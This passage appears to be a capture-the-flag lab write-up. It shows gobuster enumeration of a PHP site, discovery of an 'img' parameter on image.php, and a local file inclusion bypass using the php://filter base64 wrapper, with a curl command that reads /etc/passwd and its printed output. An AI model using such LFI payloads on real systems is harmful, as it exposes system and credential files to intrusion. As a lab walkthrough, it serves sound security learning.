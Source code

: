 ```
===============================================================
2023/05/11 01:43:13 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.php            (Status: 302) [Size: 0] [--> ./login.php]
/images               (Status: 301) [Size: 315] [--> http://10.129.71.202/images/]
/login.php            (Status: 200) [Size: 5609]
/profile.php          (Status: 302) [Size: 0] [--> ./login.php]
/image.php            (Status: 200) [Size: 0]
/header.php           (Status: 302) [Size: 0] [--> ./login.php]
```

There's an `image.php` file that we can access, but the Size being 0 means nothing is loaded. When we view the page source, we can see that there are some images loaded:

&#x20;

<figure><img src="../../../.gitbook/assets/image (5) (6).png" alt=""><figcaption></figcaption></figure>

Why would there be an `image.php` file when the images are static on the page itself? When testing, I fuzzed a few parameters, and found that `?img` was the right parameter to use:

<figure><img src="../../../.gitbook/assets/image (3) (4) (4).png" alt=""><figcaption></figcaption></figure>

This looks vulnerable to LFI, but when trying to read it we get blocked:

<figure><img src="../../../.gitbook/assets/image (15) (3) (3).png" alt=""><figcaption></figcaption></figure>

Since this is PHP based, we can try to bypass this using the `php://filter` wrapper, and it works.

```
$ curl http://10.129.71.202/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd | base64 -d
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2152  100  2152    0     0   112k      0 --:--:-- --:--:-- --:--:--  116k
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
<TRUNCATED>
```
